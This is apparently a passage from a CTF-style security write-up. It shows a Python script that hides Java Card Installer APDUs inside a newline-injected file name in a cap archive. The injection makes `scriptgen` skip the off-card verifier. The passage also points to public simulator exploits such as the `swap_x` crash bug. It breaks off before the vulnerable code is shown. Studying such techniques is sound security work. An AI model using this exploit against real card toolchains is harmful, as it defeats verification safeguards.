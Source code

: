 The following [Python script](newline-hack.py) adds a malicious Export.cap to an otherwise-valid cap file (`library.cap`, containing a single empty class):

```python
import shutil
import zipfile

shutil.copy("library.cap", "upload/exploit.cap")
commands = [
    # finish uploading the original cap file
    # ConstantPool.cap
    "0x80 0xB2 0x05 0x00 0x00 0x7F;",
    "0x80 0xB4 0x05 0x00 0x05 0x05 0x00 0x02 0x00 0x00 0x7F;",
    "0x80 0xBC 0x05 0x00 0x00 0x7F;",
    # RefLocation.cap
    "0x80 0xB2 0x09 0x00 0x00 0x7F;",
    "0x80 0xB4 0x09 0x00 0x07 0x09 0x00 0x04 0x00 0x00 0x00 0x00 0x7F;",
    "0x80 0xBC 0x09 0x00 0x00 0x7F;",
    # finalize upload of original cap file
    "0x80 0xBA 0x00 0x00 0x00 0x7F;",
]
# add malicious (unverified) cap file(s) and any additional commands
commands += [row.strip() for row in open("hack.script") if row.strip() and not row.startswith("//")]

# convert commands to a file path
filename = "com/[*]\noutput on;"
for command in commands:
    command = " ".join(str(int(c, 0)) for c in command.rstrip(";").split())
    filename += "/* */" + command + ";"
filename += "/export.cap"

zf = zipfile.ZipFile("upload/exploit.cap", "a")
zf.writestr(filename, b"dummy")
```


So, in summary, we can bypass the off-card verifier by exploiting `scriptgen` to directly inject our own Installer APDUs into the script stream.

### Exploiting the simulator

The Java Card simulator has a [large number of documented vulnerabilities](https://security-explorations.com/javacard_vendors.html), most of which apparently aren't considered serious as the simulator is not intended for production use. Almost all of these bugs are mitigated by using the off-card verifier, which we've now bypassed.

This paper (https://security-explorations.com/materials/SE-2019-01-ORACLE.pdf) and the accompanying code package (https://packetstormsecurity.com/files/download/153293/se-2019-01-codes.zip) describe several such vulnerabilities with accompanying proof-of-concept exploit code. One of these, the `swap_x` bug (issue #17) is particularly interesting: it describes a bug in handling invalid arguments to the `swap_x` opcode which can be used to crash the simulator itself! Here's the buggy handler `__swap_x` in `cref_t1.exe`:
